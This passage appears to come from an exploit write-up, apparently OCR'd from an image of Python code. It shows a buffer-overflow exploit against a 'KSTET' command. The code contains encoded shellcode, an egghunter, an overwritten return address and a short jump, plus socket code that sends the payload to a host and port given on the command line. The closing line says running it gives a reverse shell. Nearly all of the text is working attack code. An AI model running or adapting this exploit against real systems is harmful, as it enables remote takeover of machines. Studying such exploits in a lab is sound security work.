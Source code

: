 ```python
    buf += b"\x92\x47\xda\x56\xcc\xf7\x8c\xc6\xad\xa7\x6c\xb7\x45\xa2\x63"
    buf += b"\xe8\x76\xcd\xae\x81\x1d\x22\x06\xf9\x89\xdb\x03\x71\x2b\x23"
    buf += b"\x9e\xff\x6b\xaf\x2a\xff\x22\x58\x5f\x13\x52\x3f\x9f\xeb\xa3"
    buf += b"\xaa\x9f\x81\xa7\x7c\xc8\x3d\xaa\x59\x3e\xe2\x55\x8c\x3d\xe5"
    buf += b"\xaa\x51\x77\x9d\x9d\xc7\x37\xc9\xe1\x07\xb7\x09\xb4\x4d\xb7"
    buf += b"\x61\x60\x36\xe4\x94\x6f\xe3\x99\x04\xfa\x0c\xcb\xf9\xad\x64"
    buf += b"\xf1\x24\x99\x2a\x0a\x03\x99\x2d\xf4\xd1\xb6\x95\x9c\x29\x87"
    buf += b"\x25\x5c\x40\x07\x76\x34\x9f\x28\x79\xf4\x60\xe3\xd2\x9c\xeb"
    buf += b"\x62\x90\x3d\xeb\xae\x74\xe3\xec\x5d\xad\x14\x96\x2e\x52\xd5"
    buf += b"\x67\x27\x37\xd6\x67\x47\x49\xeb\xb1\x7e\x3f\x2a\x02\xc5\x30"
    buf += b"\x19\x27\x6c\xdb\x61\x7b\x6e\xce"
    final_payload = prepend + buf
    return final_payload
 
    
def make_payload():
    prepend = b"KSTET /.:/"
    pattern = b"A"*2
    egg =  b""
    egg += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
    egg += b"\xef\xb8\x43\x46\x4f\x58\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
    pad = b'B'*(62-len(egg)+2)
	eip = b"\xdf\x11\x50\x62"
    short_jmp = b'\xeb\xb8'
    buffer_space = 900
    payload_struct = pattern + egg + pad + eip + short_jmp + b'C'*buffer_space
    final_payload = prepend + payload_struct
    return final_payload
    

def tcp_socket(ip,port):
    network_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connection_tuple = (ip,port)
    network_socket.connect(connection_tuple)
    return network_socket

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('--host', required=True)
    parser.add_argument('--port', required=True, type=int)
    args = parser.parse_args()
    main(args.host,args.port)   

```

On running this we should get a reverse shell!

